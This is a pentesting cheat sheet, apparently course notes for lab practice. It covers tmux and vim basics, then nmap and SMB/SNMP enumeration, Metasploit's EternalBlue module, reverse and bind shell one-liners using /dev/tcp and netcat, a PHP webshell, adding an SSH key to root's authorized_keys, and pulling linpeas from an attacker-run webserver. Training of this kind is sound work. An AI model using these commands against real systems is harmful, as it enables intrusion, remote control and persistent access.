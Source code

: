 # Cheat Sheet

### Basic Tools

| **Command**                                                | **Description**                      |
| ---------------------------------------------------------- | ------------------------------------ |
| **General**                                                |                                      |
| <mark style="color:green;">`sudo openvpn user.ovpn`</mark> | Connect to VPN                       |
| `ifconfig`/`ip a`                                          | Show our IP address                  |
| `netstat -rn`                                              | Show networks accessible via the VPN |
| `ssh user@10.10.10.10`                                     | SSH to a remote server               |
| `ftp 10.129.42.253`                                        | FTP to a remote server               |
| **tmux**                                                   |                                      |
| `tmux`                                                     | Start tmux                           |
| `ctrl+b ctrl+c`                                            | tmux: new window                     |
| `ctrl+b 1`                                                 | tmux: switch to window (`1`)         |
| `ctrl+%`                                                   | tmux: split pane vertically          |
| `ctrl+"`                                                   | tmux: split pane horizontally        |
| `ctrl+->`                                                  | tmux: switch to the right pane       |
| **Vim**                                                    |                                      |
| `vim file`                                                 | vim: open `file` with vim            |
| `esc+i`                                                    | vim: enter `insert` mode             |
| `esc`                                                      | vim: back to `normal` mode           |
| `x`                                                        | vim: Cut character                   |
| `dw`                                                       | vim: Cut word                        |
| `dd`                                                       | vim: Cut full line                   |
| `yw`                                                       | vim: Copy word                       |
| `yy`                                                       | vim: Copy full line                  |
| `p`                                                        | vim: Paste                           |
| `:1`                                                       | vim: Go to line number 1.            |
| `:w`                                                       | vim: Write the file 'i.e. save'      |
| `:q`                                                       | vim: Quit                            |
| `:q!`                                                      | vim: Quit without saving             |
| `:wq`                                                      | vim: Write and quit                  |

### Pentesting

| **Command**                                                                                                      | **Description**                                                       |
| ---------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| **Service Scanning**                                                                                             |                                                                       |
| <mark style="color:green;">`nmap 10.129.42.253`</mark>                                                           | Run nmap on an IP                                                     |
| <mark style="color:green;">`nmap -sV -sC -p- 10.129.42.253`</mark>                                               | Run an nmap script scan on an IP                                      |
| <mark style="color:green;">`locate scripts/citrix`</mark>                                                        | List various available nmap scripts                                   |
| <mark style="color:green;">`nmap --script smb-os-discovery.nse -p445 10.10.10.40`</mark>                         | Run an nmap script on an IP                                           |
| <mark style="color:green;">`netcat 10.10.10.10 22`</mark>                                                        | Grab banner of an open port                                           |
| <mark style="color:green;">`smbclient -N -L \\\\10.129.42.253`</mark>                                            | List SMB Shares                                                       |
| <mark style="color:green;">`smbclient \\\\10.129.42.253\\users`</mark>                                           | Connect to an SMB share                                               |
| <mark style="color:green;">`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`</mark>                     | Scan SNMP on an IP                                                    |
| <mark style="color:green;">`onesixtyone -c dict.txt 10.129.42.254`</mark>                                        | Brute force SNMP secret string                                        |
| **Web Enumeration**                                                                                              |                                                                       |
| <mark style="color:green;">`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`</mark> | Run a directory scan on a website                                     |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`                            | Run a sub-domain scan on a website                                    |
| `curl -IL https://www.inlanefreight.com`                                                                         | Grab website banner                                                   |
| `whatweb 10.10.10.121`                                                                                           | List details about the webserver/certificates                         |
| `curl 10.10.10.121/robots.txt`                                                                                   | List potential directories in `robots.txt`                            |
| `ctrl+U`                                                                                                         | View page source (in Firefox)                                         |
| **Public Exploits**                                                                                              |                                                                       |
| `searchsploit openssh 7.2`                                                                                       | Search for public exploits for a web application                      |
| `msfconsole`                                                                                                     | MSF: Start the Metasploit Framework                                   |
| `search exploit eternalblue`                                                                                     | MSF: Search for public exploits in MSF                                |
| `use exploit/windows/smb/ms17_010_psexec`                                                                        | MSF: Start using an MSF module                                        |
| `show options`                                                                                                   | MSF: Show required options for an MSF module                          |
| `set RHOSTS 10.10.10.40`                                                                                         | MSF: Set a value for an MSF module option                             |
| `check`                                                                                                          | MSF: Test if the target server is vulnerable                          |
| `exploit`                                                                                                        | MSF: Run the exploit on the target server is vulnerable               |
| **Using Shells**                                                                                                 |                                                                       |
| `nc -lvnp 1234`                                                                                                  | Start a `nc` listener on a local port                                 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                                            | Send a reverse shell from the remote server                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`                               | Another command to send a reverse shell from the remote server        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`                                    | Start a bind shell on the remote server                               |
| `nc 10.10.10.1 1234`                                                                                             | Connect to a bind shell started on the remote server                  |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                                                 | Upgrade shell TTY (1)                                                 |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                                                      | Upgrade shell TTY (2)                                                 |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                                                | Create a webshell php file                                            |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                                                    | Execute a command on an uploaded webshell                             |
| **Privilege Escalation**                                                                                         |                                                                       |
| `./linpeas.sh`                                                                                                   | Run `linpeas` script to enumerate remote server                       |
| `sudo -l`                                                                                                        | List available `sudo` privileges                                      |
| `sudo -u user /bin/echo Hello World!`                                                                            | Run a command with `sudo`                                             |
| `sudo su -`                                                                                                      | Switch to root user (if we have access to `sudo su`)                  |
| `sudo su user -`                                                                                                 | Switch to a user (if we have access to `sudo su`)                     |
| `ssh-keygen -f key`                                                                                              | Create a new SSH key                                                  |
| <mark style="color:green;">`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`</mark>   | Add the generated public key to the user                              |
| <mark style="color:green;">`ssh root@10.10.10.10 -i key`</mark>                                                  | SSH to the server with the generated private key                      |
| **Transferring Files**                                                                                           |                                                                       |
| `python3 -m http.server 8000`                                                                                    | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                                                                         | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                                           | Download a file on the remote server from our local machine           |
| <mark style="color:green;">`scp linenum.sh user@remotehost:/tmp/linenum.sh`</mark>                               | Transfer a file to the remote server with `scp` (requires SSH access) |
| <mark style="color:green;">`base64 shell -w 0`</mark>                                                            | Convert a file to `base64`                                            |
| <mark style="color:green;">`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`</mark>                              | Convert a file from `base64` back to its orig                         |
| <mark style="color:green;">`md5sum shell`</mark>                                                                 | Check the file's `md5sum` to ensure it converted correctly            |
